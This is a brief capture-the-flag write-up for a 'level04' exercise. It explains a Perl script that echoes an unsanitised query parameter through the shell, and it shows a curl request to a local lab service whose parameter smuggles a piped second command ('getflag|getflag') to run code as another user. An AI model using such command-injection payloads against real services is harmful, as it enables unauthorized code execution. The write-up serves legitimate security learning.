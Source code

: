 ```bash
cat ./level04
```

- The Perl script simply creates a routine named `x` that takes the first parameter passed to it and stores it in `y`. Then, it executes `echo $y 2>&1` and prints the result.


- Using curl `http://localhost:4747?x='something'`
the response will be 'something'

- Trying with curl `http://localhost:4747?x='getflag|getflag'`
the command become 'echo getflag | getflag 2>&1'
hance executing `getflag` with the privilege of flag04 user.
